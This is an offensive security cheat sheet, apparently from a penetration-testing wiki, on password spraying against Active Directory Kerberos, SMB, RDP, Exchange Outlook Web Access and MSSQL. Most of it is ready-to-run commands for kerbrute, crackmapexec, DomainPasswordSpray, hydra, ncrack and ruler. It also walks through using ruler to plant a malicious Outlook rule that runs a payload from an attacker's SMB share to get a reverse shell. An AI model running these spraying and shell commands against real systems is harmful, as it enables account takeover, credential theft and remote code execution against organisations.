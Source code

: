 ```yaml
---
description: >-
  Password spraying refers to the attack method that takes a large number of
  usernames and loops them with a single password.
---
```


# Password spraying

{% hint style="info" %}
The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates.
{% endhint %}

## <mark style="color:red;">**Kerberos pre-auth bruteforcing**</mark>

The Kerberos authentication protocol works with tickets in order to grant access. A ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication".

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from his password. An attacker knowing that secret key doesn't need knowledge of the actual password to obtain tickets. This is called [pass-the-key](https://www.thehacker.recipes/ad-ds/movement/kerberos/pass-the-key).

Sometimes, the pre-authentication is disabled on some accounts. The attacker can then obtain information encrypted with the account's key. While the obtained TGT cannot be used since it's encrypted with a key the attacker has no knowledge of, the encrypted information can be used to bruteforce the account's password. This is called [ASREProast](https://www.thehacker.recipes/ad-ds/movement/kerberos/asreproast).

Last but not least, the pre-authentication step can be bruteforced. This type of [credential bruteforcing](https://www.thehacker.recipes/ad-ds/movement/credentials/bruteforcing) is way faster and stealthier than other bruteforcing methods relying on NTLM. Pre-authentication bruteforcing can even be faster by using UDP as the transport protocol, hence requiring less frames to be sent.

{% hint style="info" %}
Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.
{% endhint %}

{% embed url="https://github.com/ropnop/kerbrute" %}

### <mark style="color:orange;">Username bruteforce</mark>

```
 ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
```

### <mark style="color:orange;">Password bruteforce</mark>

```
./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
```

### <mark style="color:orange;">Password spray</mark>

```
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
```

[smartbrute](https://github.com/ShutdownRepo/smartbrute) (Python) can be used to bruteforce credentials through the Kerberos pre-authentication. The smartbrute utility can be used in a `brute` mode (standard bruteforcing features) or in a `smart` mode (requires prior knowledge of a low-priv user credentials, but operates LDAP enumeration and avoid locking out accounts, fetches the users list and so on).

```
# brute mode, users and passwords lists supplied
smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN
​
# smart mode, valid credentials supplied for enumeration
smartbrute.py smart -bP $PASSWORD_LIST ntlm -d $DOMAIN -u $USER -p $PASSWORD kerberos
```

### **​​**<mark style="color:orange;">**Spray a pre-generated passwords list**</mark>

Using `crackmapexec` and `mp64` to generate passwords and spray them against SMB services on the network.

```
crackmapexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
```

Using `DomainPasswordSpray` to spray a password against all users of a domain.

```
# https://github.com/dafthack/DomainPasswordSpray
Invoke-DomainPasswordSpray -Password Summer2021!
# /!\ be careful with the account lockout !
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```

Using `SMBAutoBrute`.

```
Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
```

## <mark style="color:red;">**RDP**</mark>

Using RDPassSpray to target RDP services.

```
git clone https://github.com/xFreed0m/RDPassSpray
python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
```

Using hydra and ncrack to target RDP services.

```
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
```

## <mark style="color:red;">SMB</mark>

```
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```

## <mark style="color:red;">Outlook Web Access</mark>

password spray against an Exchange 2016 server in a offense.local domain:

```
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```

if you are attempting to replicate this technique in your own labs, you may need to update your /etc/hosts to point to your Exchange server.

If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage Ruler to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

validate the compromised credentials are working by checking if there are any email rules created already:

```
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```

The below suggests the credentials are working and that no mail rules are set for this account yet:

![](<../../.gitbook/assets/image (6) (1).png>)

### <mark style="color:orange;">Get a Shell with Malicious Rules</mark>

we can use this technique to get a reverse shell:

```
#payload path:
/root/tools/evilm64.exe

# smb share and server:
smbserver.py tools /root/tools/

# setup your listener and run ruler to create a malicious email rule:
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```

If you want to delete the malicious email rule, do this:

```
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```

## <mark style="color:red;">MSSQL</mark>

```
use admin/mssql/mssql_enum_sql_logins
```

### <mark style="color:red;">**BadPwdCount attribute**</mark>

{% hint style="info" %}
The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.
{% endhint %}

```
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```

***
